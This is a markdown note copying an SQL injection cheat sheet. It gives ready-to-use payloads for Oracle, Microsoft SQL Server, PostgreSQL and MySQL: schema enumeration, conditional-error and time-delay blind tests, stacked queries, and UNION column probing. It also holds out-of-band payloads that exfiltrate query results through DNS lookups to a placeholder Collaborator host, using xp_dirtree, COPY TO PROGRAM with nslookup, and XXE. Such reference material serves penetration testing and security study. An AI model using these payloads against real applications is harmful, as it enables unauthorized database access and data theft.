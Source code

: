 ```yaml
---
id: ecm8gbfd442dpxbe5fggfzo
title: SQL_Injection
desc: ''
updated: 1677388698823
created: 1677380025812
---
```

## SQL injection cheat sheet
This SQL injection cheat sheet contains examples of useful syntax that you can use to perform a variety of tasks that often arise when performing SQL injection attacks.

### String concatenation
You can concatenate together multiple strings to make a single string.

```sql
Oracle	'foo'||'bar'
Microsoft	'foo'+'bar'
PostgreSQL	'foo'||'bar'
MySQL	'foo' 'bar' [Note the space between the two strings]
CONCAT('foo','bar')
```
### Substring
You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string ba.
```sql
Oracle	SUBSTR('foobar', 4, 2)
Microsoft	SUBSTRING('foobar', 4, 2)
PostgreSQL	SUBSTRING('foobar', 4, 2)
MySQL	SUBSTRING('foobar', 4, 2)
```
### Comments
You can use comments to truncate a query and remove the portion of the original query that follows your input.
```sql
Oracle	--comment
Microsoft	--comment
/*comment*/
PostgreSQL	--comment
/*comment*/
MySQL	#comment
-- comment [Note the space after the double dash]
/*comment*/
```
### Database version
You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.
```sql
Oracle	SELECT banner FROM v$version
SELECT version FROM v$instance
Microsoft	SELECT @@version
PostgreSQL	SELECT version()
MySQL	SELECT @@version
```
### Database contents
You can list the tables that exist in the database, and the columns that those tables contain.
```sql
Oracle	SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
Microsoft	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
PostgreSQL	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
MySQL	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```
### Conditional errors
You can test a single boolean condition and trigger a database error if the condition is true.
```sql
Oracle	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual
Microsoft	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
PostgreSQL	1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)
MySQL	SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
```
### Batched (or stacked) queries
You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.
```sql
Oracle	Does not support batched queries.
Microsoft	QUERY-1-HERE; QUERY-2-HERE
PostgreSQL	QUERY-1-HERE; QUERY-2-HERE
MySQL	QUERY-1-HERE; QUERY-2-HERE
```
> Note
With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

### Time delays
You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.
```sql
Oracle	dbms_pipe.receive_message(('a'),10)
Microsoft	WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT pg_sleep(10)
MySQL	SELECT SLEEP(10)
```
### Conditional time delays
You can test a single boolean condition and trigger a time delay if the condition is true.
```sql
Oracle	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
Microsoft	IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
MySQL	SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')
```
### DNS lookup
You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

Oracle	The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:
```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```
The following technique works on fully patched Oracle installations, but requires elevated privileges:
```sql
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
Microsoft	exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
PostgreSQL	copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
MySQL	The following techniques work on Windows only:
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```
### DNS lookup with data exfiltration
You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use Burp Collaborator to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.
```sql
Oracle	SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
Microsoft	declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
PostgreSQL	create OR replace function f() returns void as $$
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();
MySQL	The following technique works on Windows only:
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```
### UNION attacks
For a UNION query to work, two key requirements must be met:

- The individual queries must return the same number of columns.<br>
- The data types in each column must be compatible between the individual queries.
    
    **Number of columns:**
    ```sql
    ' ORDER BY 1--
    ' ORDER BY 2--
    ... until error
    
    OR

    ' UNION SELECT NULL--
    ' UNION SELECT NULL,NULL--
    ... until success
    ```
    **Probing for string data in columns:**
    ```sql
    ' UNION SELECT 'a',NULL,NULL,NULL--
    ' UNION SELECT NULL,'a',NULL,NULL--
    ... until successfully injected string value
    ```
